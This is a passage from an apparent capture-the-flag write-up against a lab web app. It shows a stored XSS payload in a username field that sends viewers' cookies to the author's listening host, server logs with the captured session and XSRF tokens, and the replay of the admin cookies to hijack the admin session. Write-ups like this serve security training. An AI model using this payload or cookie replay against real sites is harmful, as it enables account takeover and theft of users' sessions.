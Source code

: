 But when I send a message, it does:

![image-20210816175705102](https://0xdfimages.gitlab.io/img/image-20210816175705102.png)

This means that the site is likely vulnerable to a cross-site scripting (XSS)
attack if someone is looking at the messages.

### Steal Cookies

Typically I like to use XSS payloads of the format `<script src="[url of my
box]"></script>` for XSS testing, but that will require setting up an HTTPS
server here, as the page is served over HTTPS. I’ll start with a simple
`document.location` test by updating my username to:

    
    
    0xdf<script>document.location="http://10.10.14.6/"+document.cookie;</script>
    

If that is processed as HTML, then anyone viewing it will send their cookie to
my server in the URL. I’ll start a Python webserver to listen for requests.

On sending a message, when I click on it, I’m immediately redirected to a 404:

![image-20210816180202436](https://0xdfimages.gitlab.io/img/image-20210816180202436.png)

The logs from the Python webserver show the hit, which containers the request
contains my cookies:

    
    
    10.10.14.6 - - [05/Sep/2021 10:04:30] "GET /earlyaccess_session=eyJpdiI6IldPUC93RS82eFN0QU9uUnI1cW8zdlE9PSIsInZhbHVlIjoiVGlBd25kMU9HZWR2U3ZuRTVTM283QW5WRzhsbS9DbjNLcVZxbkt1ZkVCM2FXb1o4K0VaZ1kzd3NpTVBQK1FVeG8wbTdJRFYwWko3Tkw4WDVmakRTRzBuQ1FRVlBPdDVqaDViZlB5MENUWmFjWUgxbEdFTmV0MElXUnY3VWVycDkiLCJtYWMiOiJjOGE4ZjJmNzc5OThjOTJjNjAyZWI1OTZjZmMxNTlkYWQ4Mzg3OWUwZWE1YmVkZWYzNWY4ZmYxMDgwODQ3NjdiIn0%3D;%20XSRF-TOKEN=eyJpdiI6IkVwTzFYSHhsSEdkU1RmcnphdTN6Q3c9PSIsInZhbHVlIjoiNE54ZmcxMk0zZWEzOSs3MW92d1I2ZGtJS3NZQ1B0eDE0T0RHaGdTa24rVVpoUTJQeFU5Z3hIUHdQckpnMEFrRXJHNHpERk8ydGNWTi9EdGxUTmZFRDlBOU1yV2t1Y294MWZleGQrcVlORE9mSEZHaHJXY1hhYzNyeW9aaERxRGYiLCJtYWMiOiIwZWY2OGRmODdlZDYxZGRmOGY1MDEwMzUwYmNkNDU0ZWY5NDBkNWYxZjA0MTMyYjE1N2M5MDhmZmMzYmQzOGNjIn0%3D HTTP/1.1" 404
    

Less than a minute later, there’s a request from EarlyAccess with a cookie:

    
    
    10.10.11.110 - - [05/Sep/2021 10:04:42] "GET /XSRF-TOKEN=eyJpdiI6Inowei9ZYlV3SDI2QlJGeHRoZTBsT1E9PSIsInZhbHVlIjoiQ0tRMDhFMjM2SE5yQzRzKzZLL2tUbGxQNXZ5ZnlMMkpRV2pqWTY2ZVY0Y21JTzN0aG40MS9xNWNCMU1rYk5ERnBzVUNpY0tqa1craW8yZkw3MnlzMHQyS1Y4cEFYZUMxZ3dwek5rSHRTY05jaVZVR2hsNDNjQk05eHV3RlhnQTIiLCJtYWMiOiJiMDAyOTBkODNlOTRhN2M4NDAwN2ViNGUyNWQzMjkzYTJiYjVmYjQ4MTYxNDNhZmExNDcwYzRkZTFmZjExMzRjIn0%3D;%20earlyaccess_session=eyJpdiI6IlpZV0VZUnU4V09HTUdONHEzQ3ZBMEE9PSIsInZhbHVlIjoiZVVqaDduTXcwcWJMdC9PUGl4U1QzcHZTVkYzdkJ6ZVM2SlJWKzZrNGhxelBGLzBZTjhic0djaGJqTXM3NWNGeGtlR05CSXZsSkdCb3oyZGNORWpYM3BHM2xvUGhKWmJFOFZ6ZVVIK2hlMHNIVU1YOWxEaXhJaUJMY3ZKYTJUNFAiLCJtYWMiOiJhMmU3YmYyYzhmNjk3YmFhZTc4ZjExNWIyMThlYTU1MzZhYmMzMGIwOWM2Mzc3OGNkM2IyODU0ZmRiNzBiM2FkIn0%3D HTTP/1.1" 404 -
    

When I replace my cookies in Firefox with these and refresh, I’m logged in as
admin:

![image-20210817065752145](https://0xdfimages.gitlab.io/img/image-20210817065752145.png)
